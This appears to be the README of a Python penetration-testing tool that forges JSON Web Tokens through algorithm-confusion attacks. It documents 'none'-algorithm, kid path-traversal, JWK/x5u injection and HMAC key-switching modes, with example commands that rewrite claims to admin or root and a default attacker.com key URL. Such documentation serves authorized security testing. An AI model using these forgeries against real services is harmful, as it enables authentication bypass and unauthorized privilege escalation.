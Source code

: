 ## Description
This Python script, jwt_confusion.py, is a command-line tool designed to demonstrate and exploit JWT (JSON Web Token) algorithm confusion vulnerabilities. It can generate forged JWTs to test the security of systems that rely on JWT authentication. This tool is for educational and authorized security testing purposes only. Improper use could lead to serious consequences.

![image](https://github.com/user-attachments/assets/ac470f1f-a263-4f1a-b710-3ecb790101c3)


#### The script implements the following attack vectors:
`HMAC Algorithm Switching`: Attempts to use an RSA public key as the secret key for HMAC (HS256, HS384, HS512) algorithms.
`'none'` Algorithm Attack: Sets the JWT algorithm to 'none', effectively bypassing signature verification.
`Key ID (kid) Manipulation`: Modifies the kid header parameter to point to an attacker-controlled key or a system file.
`JWK Header Injection`: Injects a crafted JWK (JSON Web Key) into the JWT header.
`Embedded JWK Attack`: Embeds a JWK directly into the token header.
`X.509 URL (x5u) Attack`: Adds an X.509 certificate URL.
`Key Confusion Attack`: Uses a symmetric key for asymmetric verification.

### Features
`JWT Parsing`: Parses JWT tokens into their header, payload, and signature components.
`Payload Modification`: Allows modification of JWT payload claims. Supports setting string, boolean, numeric, null, and JSON values. Also supports relative modification of exp, nbf, and iat claims by adding or subtracting seconds.
`Header Modification`: Allows modification of JWT header parameters.
`Key Handling`: Reads keys from PEM files. Can also generate RSA key pairs for certain attacks.
`Algorithm Specification`: Allows the user to specify the algorithm to use for forged tokens (e.g., HS256, HS384, HS512).
`Output Options`: Prints the forged JWT to standard output or writes it to a file.
`Verbose Output`: Displays detailed information about the original and forged tokens.
`Token Input from File`: Reads the JWT token from a file.
`Print Decoded Token`: Prints the decoded header and payload of the original token.

### Dependencies
Python 3.6 or higher
base64
json
hmac
hashlib
argparse
sys
os
re
typing
Optional:
cryptography (for RSA key generation and some attacks). Install with pip install cryptography. The script will function without it, but some advanced attacks will be unavailable.

### Installation
Clone this repository:
```
git clone https://github.com/RemmyNine/Confusional
cd Confusional
```

(Optional) Install the cryptography library:
pip install cryptography


Usage
python3 jwt_confusion.py --token <JWT_TOKEN> --key <KEY_FILE> [OPTIONS]


Arguments
`--token, -t`: The JWT token to attack. Required unless --file is used.
`--key, -k`: The key file (in PEM format) for signing or verification. Required for most attack types (except none and kid without key).
`--algorithm, -a`: The algorithm to use for the forged token (default: HS256). Choices depend on the attack.
`--attack`: The type of attack to perform (default: hmac). Choices are:
`hmac`: HMAC algorithm switching.
`none`: 'none' algorithm attack.
`kid`: Key ID (kid) manipulation.
`jwk-injection`: JWK header injection.
`embedded-jwk`: Embed JWK into the header
`x5u`: X.509 URL attack
`key-confusion`: Key confusion attack
`--modify, -m`: Modify payload fields. Format: key=value. Use +/-N for exp, nbf, and iat to adjust by N seconds (e.g., exp=+3600 to add an hour to the expiration). Can be used multiple times.
`--kid-value`: The value to use for the kid parameter in the kid attack (default: ../../../../../dev/null).
`--jwk-url`: The URL to use for the x5u or jku parameter (default: https://attacker.com/jwk.json).
`--gen-key`: Generate a new RSA key pair for embedded-jwk or jwk-injection attacks. If used, the --key argument is not needed.
`--raw-token`: Print only the forged JWT token, without any additional output.
`--verbose, -v`: Enable verbose output, showing details of the original and forged tokens.
`--print-decoded, -p`: Print decoded header and payload of the original token and exit.
`--header`: Add or modify header fields in key=value format.
`--file, -f`: Read the JWT token from a file instead of the command line.
`--output, -o`: Write the forged token to a file instead of printing to standard output.

### Examples
```
python3 jwt_confusion.py --token eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9... --key public.pem
python3 jwt_confusion.py --token eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9... --key public.pem --modify login=admin
python3 jwt_confusion.py --token eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9... --key public.pem --algorithm HS384
python3 jwt_confusion.py --token eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9... --attack none
python3 jwt_confusion.py --token eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9... --attack kid --kid-value ../../../../../dev/null
python3 jwt_confusion.py --token eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9... --attack embedded-jwk --gen-key
python3 jwt_confusion.py --token eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9... --modify exp=+3600 -m admin=true
python3 jwt_confusion.py --file token.txt --key private.key --attack hmac -a HS512 -m user=root
python3 jwt_confusion.py --token <token> --attack jwk-injection --jwk-url https://example.com/my_jwk.json
python3 jwt_confusion.py --token <token> --attack x5u --jwk-url https://example.com/cert.cert
python3 jwt_confusion.py --token <token> --attack key-confusion --key symmetric.key
python3 jwt_confusion.py --token <token> --print-decoded
python3 jwt_confusion.py --token <token> --header typ=JWT -m role=admin
```

### Exploitation Stage
- Make sure you already made your base64url JWT with JWT.io or any other website. This tool only perform algorithm confusion attack
